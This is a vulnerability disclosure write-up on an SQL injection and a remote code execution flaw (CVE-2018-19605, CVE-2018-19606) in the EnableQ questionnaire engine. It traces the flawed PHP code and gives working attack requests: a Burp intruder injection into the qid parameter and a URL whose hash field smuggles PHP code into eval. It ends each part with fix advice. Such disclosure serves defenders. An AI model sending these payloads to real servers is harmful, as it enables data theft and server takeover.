###EnableQ SQLi&RCE Vulnerability  

####General description：  

**[1]CVE-2018-19605:EnableQ Online Questionnaire Engine V10.X has a SQL injection vulnerability.The vulnerability stems from the AjaxCheckTextRepeat.php file failing to filter the qid parameters. Remote attackers can use the vulnerability to obtain database sensitive information**  

**[2]CVE-2018-19606:EnableQ Online Questionnaire Engine V10.X has a Remote Code Execution Vulnerability in the front desk. Remote unauthorized attackers can use this vulnerability to execute code and gain server control**  

_ _ _

**Environment: **  
apache/php 7.0.12/EnableQ Online Questionnaire Engine V10.51,V10.54  

_ _ _

**[1]SQL Injection Vulnerability**

In the \public_html\JS\AjaxCheckTextRepeat.php file:  


Line 56 gets the value of the variable ```hash``` via a GET request, and line 57 is split into an array assigned to ```$thisPageChecks``` by "|".  



Line 61 traverses the ```$thisPageChecks``` array, and line 66 is split into arrays by "*" and assigned to ```$theQtnType```.  



Line 111 enters the if statement when ```$theQtnType[0]``` is equal to 23, and line 116 splicing ```$_GET['qid']``` directly, and line 126 enters the database query, resulting in SQL injection.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

  
As shown in the figure, ```qid``` is 140.  

Poc in the poc directory(poc.py).  
  

Vulnerability fix recommendations: Encodes the data entered by the user or ```int($_GET['qid'])```.  

**[2]RCE Vulnerability**

In the \public_html\JS\AjaxCheckEmpty.php file:  
  
Line 3 defines the runexpcode function, in which line 7 executes the ```$code``` parameter via eval. If we can find the place to call the function and the ```$code``` parameter is controllable, then arbitrary code execution can be caused.  

  
The runexpcode function is called on line 1113 of the file, and the ```$theExpression``` parameter is passed, so let the value of $theCheckSkip on line 1112 be false.  

  
The ```$theExpressio```n parameter is derived from ```$theQtnType[2]``` on line 1107.  

To perform the above functions and assignments, you need to satisfy the following:can't enter line 49, but go to line 735.  
  
  

  
The ```$theQtnType``` is derived from the ```$theCheck``` parameter, which is split by "*" on line 41. The ```$theCheck``` parameter is again derived from ```$thisPageChecks```.  

  
As above, ```$thisPageChecks``` is obtained by the hash of the GET request and processed by "|".  

In summary, the 37th line obtains the ```hash``` parameter by GET, and then splits into an array ```$thisPageChecks``` by "|", then the 40th line traverses the array, and the 41st line divides the traversed value into an array ```$theQtnType``` by "*". Line 43 enters the conditional statement when the first value of the repartitioned array ```$theQtnType``` is "s1", and then executes the runexpcode function when ```$theQtnType[2]``` is not equal to m2, eventually resulting in remote code execution.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

  
As shown in the figure, ```qid``` is 140.  
Then request the following link to execute the phpinfo() function.  
```
http://yourdomain/JS/AjaxCheckEmpty.php?qid=140&hash=s1*7*555;phpinfo();exit*3*4*5*6*aGVoZQ==|
```
  

Vulnerability fix recommendations: Encode the data entered by the user or do not use the eval function.  
